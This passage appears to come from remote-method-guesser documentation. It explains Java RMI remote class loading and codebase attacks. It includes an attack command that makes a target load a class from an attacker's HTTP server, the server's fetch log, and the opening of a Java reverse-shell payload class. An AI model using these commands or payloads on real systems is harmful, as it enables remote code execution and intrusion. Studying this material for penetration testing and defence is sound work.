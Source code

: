 For the above mentioned reasons, the *Distributed Garbage Collector* is no longer suitable for enumerating *remote class loading*. A little bit better is the
situation for the *RMI registry*. The *RMI registry* still respects a user defined ``useCodebaseOnly`` setting and uses a *SecurityManager* that allows outbound
connections by default. Therefore, a setting of ``useCodebaseonly=false`` is already sufficient to load classes from remote. However, there are two downsides:

1. If no user defined *SecurityManager* with corresponding permissions is present, the loaded remote classes are affected by the security policy of the
   *RMI registry*. As this policy is only concerned about networking, *file* and *process* access might be limited.

2. To trigger *remote class loading* it is required to enforce a ``readObject`` call on the *RMI registry*. Before June 2020, this was easy, as the ``String``
   argument of the ``lookup(String name)`` method was unmarshalled via ``readObject``. However, on most recent *RMI registries* you can only use the ``bind``
   and ``rebind`` methods, that can only be invoked from localhost.

Whereas the *internal RMI communications* (*DGC* and *RMI registry*) are well protected, *RMI communication* on the application level is not. A server configured
with ``useCodebaseonly=false`` and a lax configured *SecurityManager* might be exploitable, but you need to know a valid method signature. Furthermore, also
on the application level it is required that the *remote method* leads to a call to ``readObject`` on the server side. Therefore, the targeted remote method
needs non primitive input parameters. As in case of the registry, ``java.lang.String`` might be sufficient for older *RMI servers*, whereas it does not work for
newer ones. The following listing shows an example for a successful codebase attack:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 codebase Shell http://172.17.0.1:8000 --signature "String login(java.util.HashMap dummy1)" --bound-name legacy-service
[+] Class de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub is treated as legacy stub.
[+] You can use --no-legacy to prevent this.
[+] Attempting codebase attack on RMI endpoint...
[+] Using class Shell with codebase http://172.17.0.1:8000/ during login call.
[+] 
[+] 	Using non primitive argument type java.util.HashMap on position 0
[+] 	Specified method signature is String login(java.util.HashMap dummy1)
```

When used against a vulnerable endpoint, you should obtain an *HTTP* request for the specified class:

```console
[qtc@kali ~]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [27/Mar/2021 06:46:41] "GET /Shell.class HTTP/1.1" 200 -
```

*remote-method-guesser* expects the payload class to have a ``serialVersionUID`` of ``2L``, but apart from that you can do anything
within the ``readObject`` method of the class. For this demonstration, the following class definition was used, that spawns a reverse shell:

```java
// Taken from: https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.util.jar.Attributes;
import java.io.Serializable;
import java.io.ObjectInputStream;

public class Shell implements Serializable
{
    private static int port = 4444;
```